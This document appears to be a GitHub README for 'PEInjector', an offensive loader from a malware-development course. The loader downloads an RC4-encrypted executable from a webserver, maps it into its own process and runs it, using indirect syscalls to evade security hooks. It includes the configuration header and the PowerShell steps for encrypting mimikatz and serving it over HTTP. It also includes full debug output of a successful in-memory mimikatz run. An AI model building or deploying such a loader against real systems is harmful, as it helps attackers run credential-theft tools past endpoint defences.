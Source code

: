 # PEInjector
A simple PE injector that downloads encrypted PE executable from a webserver maps it in the current process
fixes all relocations and imports and executes its entrypoint.

## Features
  - Make use of indirect syscalls 
  
  - Downloads the PE from a webserver, or reads it from a local file (mainly for testing)
  
  - RC4 encryption for the PE
  
  - Able to run EXE or DLL (along with an exported func from the DLL)
  
  - Pass arguments to the PE that will be executed
  
  
## TODO
  - Remove the need for LoadLibrary and GetProcAddress to resolve the PE's import table
  - Remove the need for the CRT library
  - Download the encryption key along with the payload
  

## Usage
Most of the configuration options are located in `main.h`, just configure, compile and run.
```c
/*---------------------------
 Read from web or local file
---------------------------*/
#define WEB 80
//#define SECURE 443

#define HOST L"192.168.100.161"
#define REMOTE_FILE L"mimikatz-enc.bin"
//#define LOCAL_FILE "C:\\Users\\nullb1t3\\Desktop\\mimikatz-enc.bin"

#define PE_ARGS "coffee exit"
//#define DLL_EXPORTED_FUNC "someExportedFunc"    //in case of DLLs

/*------------------
  Debug output
------------------*/
#define DEBUG
```

 - Encrypt a payload [PayloadEncryptor](https://github.com/vgeorgiev90/MalDevAcademy/tree/master/PayloadEncryptor)
 ```powershell
PS C:\Users\nullb1t3\Desktop> .\PayloadEncryptor.exe C:\Users\nullb1t3\Desktop\mimikatz.exe C:\Users\nullb1t3\Desktop\mimikatz-enc.bin
Reading file: C:\Users\nullb1t3\Desktop\mimikatz.exe
XORing the encryption key.
Doing some magick.
Writing data to: C:\Users\nullb1t3\Desktop\mimikatz-enc.bin

PS C:\Users\nullb1t3\Desktop> python -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
 ```
 
 - Run it by downloading from a webserver or read it from a file locally (debug output can be turned off)
 ```powershell
 PS C:\Users\nullb1t3\Desktop> .\PEInjector.exe
[*] Initializing syscalls structure.
[*] Fetching information about syscall: 0x6E8AC28E.
[*] Initializing NT structure.
[*] PEB: 0x0000002998BE9000

[*] ntdll base: 0x00007FFB496B0000
[*] Names array: 0x00007FFB498047B4
[*] Addresses array: 0x00007FFB498021A8
[*] Ordinals array: 0x00007FFB49806DBC
[*] Names offset: 0x00007FFB498047B4
[*] Addrs offset: 0x00007FFB498021A8
[*] Ordls offset: 0x00007FFB49806DBC
[*] Number of functions: 2434

[*] Init NT struct finished.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D3E2.
[*] Fetching information about syscall: 0x1DA5BB2B.
[*] Found a jump address for indirect syscall: 0x00007FFB4974DAE2.
[*] Fetching information about syscall: 0x6299AD3D.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D162.
[*] Fetching information about syscall: 0x8EC0B84A.
[*] Found a jump address for indirect syscall: 0x00007FFB4974E912.
[*] Fetching information about syscall: 0x369BD981.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D2C2.

[*] NtAllocateVirtualMemory SSN: 24.
[*] NtCreateThreadEx SSN: 194.
[*] NtProtectVirtualMemory SSN: 80.
[*] NtWaitForSingleObject SSN: 4.
[*] NtClose SSN: 15.
[*] Init done!

[*] Downloaded the shellcode with size: 1355264
[*] Decrypting shellcode with size: 1355264.
[*] Decrypted shellcode!
[*] Parsing loaded PE file's headers
[*] Populating Data Directories
[*] Parsing finished
[*] Allocating memory with size: 1372160
[*] Copying PE sections in the allocated memory with start address: 0x000001E787590000
[*] Finished
[*] Attempting to apply base relocaitons
[*] Finished applying relocations
[*] Resolving the PE's import table
[*] Reached the end of the import descriptors array
[*] Fixing sections memory permissions, number of sections: 6
[*] Checking memory protection for section: 0
        > PAGE_READONLY
        > PAGE_EXECUTE
        > PAGE_EXECUTE_READ
[*] Checking memory protection for section: 1
        > PAGE_READONLY
[*] Checking memory protection for section: 2
        > PAGE_WRITECOPY
        > PAGE_READONLY
        > PAGE_READWRITE
[*] Checking memory protection for section: 3
        > PAGE_READONLY
[*] Checking memory protection for section: 4
        > PAGE_READONLY
[*] Checking memory protection for section: 5
        > PAGE_READONLY
[*] Finished applying sections memory protections
[*] Finished patching command line arguments
[*] PE Output:


  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz(commandline) # exit
Bye!
 ```


## Credits
- @mr.d0x @NUL0x4C and @5pider and the incredible [Maldev academy](https://maldevacademy.com/)


## Disclaimer
As always this simple tool is created for educational purposes only ! 